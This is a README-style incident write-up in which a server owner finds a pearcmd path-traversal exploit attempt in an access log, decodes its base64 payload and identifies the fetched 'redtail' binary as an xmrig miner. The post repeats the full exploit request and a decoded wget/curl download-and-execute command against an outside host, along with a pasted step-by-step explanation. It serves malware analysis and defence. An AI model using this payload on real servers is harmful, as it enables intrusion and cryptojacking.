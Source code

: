 # redtail

While analyzing my daily access.log report, I noticed something really, really wrong.


> 26 December 2023, 04:21	202.1.200.239	GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode(\


Above is the processed access.log report. I believe there's a raw base64 string present over there, but it got trimmed by my faulty regex script (probably). So I decided to inspect the raw access.log file : 

> 202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"

Umm... Why is the `shell_exec` part missing here?

I decided to modify my access.log processor script. So I instructed the script that whenever a string containing "base64_decode" is being processed, please show me the raw log line.

Here's what I got :


```
202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&amp;+config-create+/&amp;/<!--?shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"));?-->+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"
```
Here's the true culprit 

> shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"))

And finally, I managed to extract the base64 string.


> bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=


Let's decode this base64 string.


> mkdir -p /tmp/$(whoami); cd /tmp/$(whoami); wget http://dw.ohuyal.xyz/download/redtail.x86_64; curl -O http://dw.ohuyal.xyz/download/redtail.x86_64; mv redtail.x86_64 php.selfrep; chmod +x php.selfrep; ./php.selfrep; echo PHP.SELFREP


Umm. I don't understand it. Let's ask ChatGPT.

----

This script seems to be a set of commands executed in a Unix-like shell (like Bash). Let's break it down step by step:

1. **Create a temporary directory with the user's name:**
   ```bash
   mkdir -p /tmp/$(whoami)
   ```
   - `mkdir`: command to create a directory.
   - `-p`: option to create parent directories if they don't exist.
   - `/tmp/$(whoami)`: specifies the path of the directory. `/tmp/` is the temporary directory, and `$(whoami)` is a command substitution that gets replaced with the current username.

2. **Change to the newly created temporary directory:**
   ```bash
   cd /tmp/$(whoami)
   ```
   - `cd`: command to change the current working directory.

3. **Download a file named "redtail.x86_64" from a remote server using `wget` and `curl`:**
   ```bash
   wget http://dw.ohuyal.xyz/download/redtail.x86_64
   curl -O http://dw.ohuyal.xyz/download/redtail.x86_64
   ```
   - `wget`: command to download files from the internet.
   - `curl -O`: command to download a file and save it with the same name as the remote file.

4. **Rename the downloaded file to "php.selfrep":**
   ```bash
   mv redtail.x86_64 php.selfrep
   ```
   - `mv`: command to rename or move files.

5. **Give execute permissions to the renamed file:**
   ```bash
   chmod +x php.selfrep
   ```
   - `chmod +x`: command to make the file executable.

6. **Execute the renamed file:**
   ```bash
   ./php.selfrep
   ```
   - `./`: specifies the current directory.
   - `php.selfrep`: the executable file that was downloaded and renamed.

7. **Print a message "PHP.SELFREP":**
   ```bash
   echo PHP.SELFREP
   ```
   - `echo`: command to print text to the console.

----

Before that URL is unaccessible, I archived the `redtail.x86_64` executable here for research purposes.

### So?

I wish some security researchers could find out what these executables actually do. 

Oh, I also managed to find another malware in the wild, similar to this : [jaws.exploit](https://github.com/altilunium/jaws.exploit). 

All I have to do to get this one is by setting up a honeypot server with a publicly accessible IP.

---

### Epilogue

VirusTotal analysis of this `redtail.x86_64` file : [miner.bldbd/xmrig](https://www.virustotal.com/gui/file/819f53b96bb5b8869531d3880b53cb5f354b2a2f5171e783bad495e1ac2cbbf0/detection)

### Epilogue 2

It's not my faulty regex script. In fact, I just fail to properly render the `access.log` file by using HTML. Here's the actual access.log line, shown by using simple grep.

> grep "shell_exec" access.log

```
202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"));?>+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"
```

![image](https://github.com/altilunium/redtail/assets/70379302/f6b99e3e-3e12-48b6-bbda-38e68937a883)


